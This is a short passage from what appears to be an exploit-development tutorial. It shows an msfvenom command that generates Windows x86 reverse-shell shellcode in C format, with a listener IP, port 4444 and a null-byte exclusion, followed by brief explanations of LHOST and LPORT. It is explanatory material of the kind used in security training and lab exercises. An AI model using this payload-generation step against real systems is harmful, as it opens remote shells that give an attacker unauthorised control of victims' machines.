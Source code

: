 Generating shellcode means we need a way in which our victim is going to connect back to us, We will be using **msfvenom** for this, our payload will be :

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.157 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"  
```

**LHOST:** the IP in which the target is gonna connect back to
**LPORT:** the port in which target will connect back to